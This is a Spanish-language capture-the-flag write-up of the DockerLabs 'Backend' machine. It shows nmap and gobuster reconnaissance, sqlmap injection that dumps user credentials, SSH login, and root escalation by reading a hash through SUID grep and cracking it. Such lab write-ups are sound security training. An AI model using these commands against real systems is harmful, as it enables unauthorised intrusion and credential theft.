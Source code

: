 ```yaml
---
title: Backend - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | 4bytes            | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/c19c7d39-6cd4-4c9b-9c4e-92f19aea26f7)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 22,80-sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/bd234e9e-017c-4e38-9ce1-33aee6a2459d)

# Exploración Web

Al acceder a la página web, observamos un panel de login.

![image](https://github.com/user-attachments/assets/cf41d47c-5035-41f4-9a2a-bd4953dd2cec)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

 ![image](https://github.com/user-attachments/assets/a972521d-6dbc-4553-8fb4-5a06249c6da2)


## Inyeccion Sql

Como hemos visto que el panel de login no proporciona más información útil, guardaremos la petición HTTP en un archivo llamado `respuesta.req` y los datos que quiero que me modifique le pondremos esto `*`.

![image](https://github.com/user-attachments/assets/0ef79e06-5155-44fd-b59b-f9484ada19b3)

A continuación, vamos a probar si es inyectable:
```bash
sqlmap -r respuesta.req -p searchitem --batch 
```
![image](https://github.com/user-attachments/assets/03841ef7-7f7d-4f08-9e6d-9fe4e2ecf42a)

Como podemos ver, la inyección es efectiva y con varios tipos de inyección. Ahora vamos a ver las bases de datos que contiene.
```bash
sqlmap -r respuesta.req -p searchitem --batch --dbs
```
![image](https://github.com/user-attachments/assets/cef9b37f-7394-4dc5-9398-398c8ae589e8)

Ya que sabemos las bases de datos, vamos a ver las tablas de esa base de datos `users`.

```bash
sqlmap -r respuesta.req -p searchitem --batch -D users --tables
```
![image](https://github.com/user-attachments/assets/de4b02d3-fb3d-461e-9ed1-a7ad7a5ebcf3)

Vemos que contiene una tabla llamada `usuarios`. Vamos a ver qué contiene.
```bash
sqlmap -r respuesta.req -p searchitem --batch -D users -T usuarios --columns
```
![image](https://github.com/user-attachments/assets/73be9dae-dc05-43a2-8ba6-231e4c6674ac)

Por ultimo veremos que contiene esas columnas
```bash
sqlmap -r respuesta.req -p searchitem --batch -D users -T usuarios -C id,username,password --dump
```
![image](https://github.com/user-attachments/assets/17d42ce7-3e29-400c-9943-7f60dbfd7c65)

Como se trata de una SQLi, luego de probarlos en la página y que ninguno nos sirva, podemos intentar probar si alguno es válido para el puerto 22 de SSH. Por lo que simplemente probamos uno por uno, ya que son tres, y vemos que el usuario `pepe` sí tiene acceso.

![image](https://github.com/user-attachments/assets/498775ec-289d-4204-9e63-daef0f183f1b)

# Escalada de privilegios.

Vamos a hacer lo de siempre: empezaremos viendo si podemos ejecutar el comando `sudo -l`.

![image](https://github.com/user-attachments/assets/64ad3de5-72f7-4133-ab37-d9016df87d8d)

Al parecer no podemos. Lo que haremos será buscar en el SUID.
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/082fdc23-3de3-400d-88d9-5e8b6ba07164)

Como vemos, los binario `ls` y `grep` están en el SUID, por lo que podríamos intentar leer la `home` de `root` usando `ls`. 
```bash
/usr/bin/ls root
```
![image](https://github.com/user-attachments/assets/3ec89a8d-58f0-4ee8-a051-87d4068adbd0)

Vemos que contiene un archivo llamado `pass.hash`. Como no podemos usar `cat`, usaremos el binario `grep` para ver el contenido del mismo. 
```bash
LFILE=/root/pass.hash
/usr/bin/grep '' $LFILE
```
![image](https://github.com/user-attachments/assets/4bfe7f58-79b8-4515-9d5a-65f7280ebc92)

Como por el nombre nos dice que es un hash, usaremos la página [Crackstation](https://crackstation.net/) por si desde allí obtenemos lo que contiene la hash.

![image](https://github.com/user-attachments/assets/48bb451a-266d-4764-b44d-92ce9a969e8b)

Ya tenemos la contraseña en texto plano. Ahora solo hace falta probarla con `root` para ver si tenemos acceso.
```bash
su root
```

¡Ya somos root!

![image](https://github.com/user-attachments/assets/30d2c010-e489-4c07-bbbb-33dcad8fb6b4)

